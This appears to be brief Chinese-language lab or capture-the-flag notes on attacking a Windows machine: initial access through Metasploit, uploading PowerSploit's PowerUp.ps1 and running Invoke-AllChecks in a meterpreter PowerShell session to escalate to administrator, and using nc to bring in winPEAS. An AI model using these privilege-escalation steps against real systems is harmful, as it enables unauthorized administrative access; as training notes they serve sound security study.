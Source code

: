 使用 Metasploit 获得初始访问权限，使用 Powershell 进一步列举该计算机，并将权限升级到管理员。

msf攻击利用漏洞cve2014-6867

https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

下载脚本到msf 用upload

就可以powershell提权
```
load powershell
powershell_shell
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```


不用msf如何利用漏洞

用nc把提权脚本拉进去  winpeas